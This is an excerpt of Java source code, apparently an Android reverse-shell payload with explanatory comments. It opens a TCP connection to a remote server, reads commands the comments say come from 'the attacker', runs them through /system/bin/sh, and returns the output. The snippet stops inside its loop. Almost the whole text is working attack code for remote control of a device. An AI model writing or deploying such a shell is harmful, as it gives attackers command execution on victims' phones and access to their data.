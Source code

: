```

      try {

        InetAddress HOST = InetAddress.getByName(SERVERIP);

        Socket socket = new Socket(HOST, PORT);

        Log.d("TCP CONNECTION", String.format("Connecting to %s:%d (TCP)", HOST, PORT));

       //Don't connect using the following line - not required

   // socket.connect( new InetSocketAddress( HOST, PORT ), 3000 );

        while (true) {

       //Following line is to send command output to the attacker

          out = new PrintWriter(new BufferedWriter(new OutputStreamWriter(socket.getOutputStream())), true);

       //Following line is to receive commands from the attacker

          in = new BufferedReader(new InputStreamReader(socket.getInputStream()));

       //Reading  string input using InputStreamReader object - These are the commands attacker sends via our remote shell

          String command = in.readLine();

          //input command will be executed using exec method

          Process process = Runtime.getRuntime().exec(new String[]{"/system/bin/sh", "-c", command});

          //The following lines will take the above output as input and place them in a string buffer.

          BufferedReader reader = new BufferedReader(

           new InputStreamReader(process.getInputStream()));
             int read;
             char[] buffer = new char[4096];
             StringBuffer output = new StringBuffer();
             while ((read = reader.read(buffer)) > 0) {
             output.append(buffer, 0, read);
             }
             reader.close();

            //Converting the output into string
            String commandoutput = output.toString();

            // Waits for the command to finish.
            process.waitFor();

            // if the string output is not null, send it to the attacker using sendOutput method:)

            if (commandoutput != null) {
              //call the method sendOutput

              sendOutput(commandoutput);

            }
            out = null;
```